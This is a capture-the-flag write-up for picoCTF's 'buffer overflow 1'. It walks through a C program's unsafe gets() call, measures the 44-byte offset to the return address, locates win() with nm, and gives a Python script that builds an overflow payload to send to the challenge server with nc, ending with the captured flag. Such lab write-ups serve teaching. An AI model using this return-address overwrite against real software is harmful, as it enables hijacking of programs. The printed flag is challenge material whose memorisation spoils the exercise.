






As in the [buffer overflow 0](buffer%20overflow%200.md), we have a program in C and its code. Let's take a look at it:  
 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```


As you can see from the code, we need to activate the `win()` function, but there is no call to it anywhere in the code. This should be done as follows:


* After the `vuln` function is done with its work, instead of returning to `main` (from where it was called), it moved to the beginning of the `win` execution.
* The `vuln` function contains a buffer `buf[BUFSIZE]`, where `BUFSIZE 32`. It also uses the vulnerable function `gets(buf)` to read user input. That is, the excess data will be written to the memory on the stack, which is located immediately after the `buf` buffer.
* На стеку після `buf`, розташовані інші дані, як-от базовий покажчик (EBP/RBP) та адреса повернення.
  
  > [!NOTE]
  > **Return address** - processor reads it from the stack to determine where to jump to execute the code after completing the current function (vuln).


To call `win`, we need tu input in `gets(buf)` enough chars to overwrite `buf `(32 bytes), padding/base pointer, and reach the return address.


Let's run server `nc saturn.picoctf.net &lt;port> ` and try the same approach we used for buffer overflow 0:




Too short output doesn't change the address `0x804932f`, which is displayed, while a very long input makes changes: `0x61616161`.

Let's decode it with CyberChef:  




I experimented with the number of characters needed to rewrite the return address and got the following:


 

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (42 char) --> no change                       0x804932f           
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (43 char) --> address remains unchanged      0x804932f
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (44 char) --> address is overwritten        0x8049300  (x00 - \0 null terminator)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (45 char) --> address is overwritten       0x8040061
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (46 char) --> address is overwritten      0x8006161
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (47 char) --> completely overwritten     0x0616161  (or 0x616161)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (48 char) --> 1 byte 0x61(a) was added  0x61616161 (4 bytes of return address are completely overwritten)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (49 char) --> no change                0x61616161
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (50 char) -->                         0x61616161
```


The experiment shows that to completely overwrite a 4-byte return address (the format `0x...` indicates a 32-bit address), an input of **48 characters** is required. In addition, the address is overwritten from right to left, which indicates `Little Endian` byte order. This was hinted at in the task itself:


Since the 48-character input (with indices 0-47) completely overwrites the return address:

* The byte with index 44 (45th character) is the first byte written to the return address.
* The byte with index 45 (46th character) is the second byte.
* The byte with index 46 (47th character) is the third byte.
* The byte with index 47 (48th character) is the fourth byte.

This means that **the offset from the beginning of `buf` to the beginning of the return address is 44 bytes**.


Verify it:

* Size of `buf`: 32 bytes.
* Offset = 44 bytes.
* Padding + stored EBP/RBP: 44 - 32 = 12 bytes. (This is the space between the end of `buf` and the beginning of the return address). This is likely to be 12 bytes of padding without EBP, or 8 bytes of padding + 4 bytes of EBP, or another combination depending on the compiler.
* But the exact elements on stack doesn't matter, overall offset matters.


Now we need to geuss address on `win()` in memory. We'll place this address instead of ret address that is shown in console.

I'll use tool `nm`

> [!NOTE]
> `nm` is used for **character analysis** in compiled object files, static libraries, and executable files.
>
> `nm` reads the **symbol table**, which is embedded in the binary file during compilation. 
> **symbol table** is a list of names (characters) used in a program, such as:
> 
> * Function names (such as `main, vuln, win,` or library functions such as `printf, strcpy`).
> * Names of global variables.
> * Names of static variables.


```bash
nm vuln > vuln_addresses.txt
```





Now let's create a payload. 
It will consist of pattern + `win()` address in **little endian** order. I wrote a Python-script that creates payload:

```python
import sys
import struct

OFFSET = 44

WIN_ADDRESS = 0x080491f6

padding = b'a' * OFFSET

packed_win_address = struct.pack('<I', WIN_ADDRESS)

payload = padding + packed_win_address
payload += b'\n'

sys.stdout.buffer.write(payload)

print("\nPayload (hex):", payload.hex())
```


    



```shell
python3 exploit.py | nc saturn.picoctf.net 63772
```





`picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`
